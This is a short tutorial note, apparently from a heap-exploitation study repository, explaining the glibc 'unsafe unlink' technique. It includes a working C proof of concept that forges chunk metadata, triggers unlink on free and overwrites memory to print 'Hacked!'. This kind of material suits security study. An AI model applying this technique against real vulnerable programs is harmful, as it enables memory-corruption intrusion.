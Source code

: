 # Unsafe unlink
> LongChampion, 13/03/2020

The source code in this repository and an explantation at [Heap Exploitation](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html) have descript all about this attack. So I will not try to make the description better here. Instead, I will write down some note about it:
- The size of chunk used in this attach must larger than MAX_FASTBIN_SIZE (0x80 on x64 system, 0x40 on x86 system)
- This is the fact that, field `pre_size` of the second chunk is belong to the first chunk, you can overwrite it freely.
- The `size` field of the second chunk is harder to control: it can't be directly access from both first chunk and second chunk. But we only want to set the last bit of `size` to zero, it can be easily done by an `off by one` error. However, in this case, the size of both chunk must be multiples of 0x100.
Look at my code:
```c
#include <stdlib.h>
#include <unistd.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

const long long SIZE = 0xf0;

int main()
{
    char data[8] = "Hello!";
    void *first = malloc(SIZE);
    void *second = malloc(SIZE);

    struct Chunk *Fake = (struct Chunk *) first;
    Fake->fd = (struct Chunk *) (&first - 3);
    Fake->bk = (struct Chunk *) (&first - 2);

    struct Chunk *secondHeader = (struct Chunk *) (second - 2 * 8);
    secondHeader->pre_size = SIZE;
    secondHeader->size &= ~0xff;

    free(second);
    *(long long *) (first + 3 * 8) = (long long) &data;
    *(long long *) first = 0x0a2164656b636148;

    write(1, (char *) data, 8);
}
```
At this time, you can understand all the code above. I set `SIZE = 0xF0` so that when I call `malloc(SIZE)`, it will return a chunk of size 0x100. And when I clear the last byte of `size`:
> `secondHeader->size &= ~0xff;`

the `size` is changed from 0x101 to 0x100 (chunk size unchanged!)  
You can set `SIZE` to 0x1F0, 0x2F0, etc... and this code still print *Hacked!* to your screen.
